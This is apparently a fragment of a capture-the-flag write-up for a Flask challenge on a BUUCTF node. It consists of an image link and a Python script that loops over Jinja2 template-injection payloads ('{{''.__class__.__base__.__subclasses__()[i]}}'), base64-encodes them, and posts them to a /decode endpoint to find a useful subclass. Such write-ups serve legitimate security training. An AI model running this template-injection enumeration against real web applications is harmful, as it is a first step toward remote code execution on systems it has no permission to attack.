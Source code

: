 ![15](/medias/buuflask/15.png)

```python
import base64
import time
import requests

url = 'http://5ef5ad3d-b154-41a3-80ca-bb36ebf2c0ba.node5.buuoj.cn/decode'
for i in range(200):
    text = "{"+"{''.__class__.__base__."+f"__subclasses__()[{i}]"+"}"+"}"
    print(text)
    text = base64.b64encode(text.encode('utf-8')).decode('utf-8')
    data = {
        "text":text
    }
    resp = requests.post(url,data=data)
    if "wrap" in resp.text:
        print(i)
```
